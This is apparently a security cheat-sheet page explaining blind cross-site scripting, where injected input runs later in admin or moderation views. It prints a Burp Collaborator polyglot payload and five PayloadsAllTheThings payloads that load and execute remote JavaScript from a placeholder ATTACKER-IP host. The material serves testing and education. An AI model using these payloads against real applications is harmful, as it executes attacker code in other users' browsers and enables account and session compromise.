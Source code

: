Blind XSS vulnerabilities are a variant of stored XSS vulnerabilities. They occur when an attacker input is saved in the database and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded.

Other example of web applications or pages where blind XSS may occur:
- Log viewers
- Exception handlers
- Chat applications / forums
- Customer ticket applications
- Product reviews
- Any application that requires user moderation by certain users (e.g Admins)
## Detection
To test for blind XSS vulnerabilities, attackers can use out-of-band techniques with the Burp Collaborator server or using their own custom script.
## Burp Collaborator
1. Right-click the request you want to investigate and select Send to Repeater.
2. In the Repeater tab, change a parameter's value to a proof-of-concept payload. As you don't know which characters may be filtered or encoded, use a payload that works in most contexts, such as: `</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/BURP-COLLABORATOR-SUBDOMAIN/).slice(2), document.documentElement.appendChild(s))//'>`.
3. Click Send.
## Custom Remote Script
An attacker can create their own custom script and host it on a server they own. Once a custom script is available, an attacker can start a listener using `netcat` or `php` or `python`.

With that, an attacker can start testing various XSS payloads that load a remote script and see which of them sends a request. The following are a few examples from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss).
1. `<script src=http://ATTACKER-IP/script-fieldname.js></script>`
2. `'><script src=http://ATTACKER-IP/script-fieldname.js></script>`
3. `javascript:eval('var a=document.createElement(\'script\');a.src=\'http://ATTACKER-IP/script-fieldname.js\';document.body.appendChild(a)')`
4. `<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//ATTACKER-IP/script-fieldname.js");a.send();</script>`
5. `<script>$.getScript("http://ATTACKER-IP/script-fieldname.js")</script>`
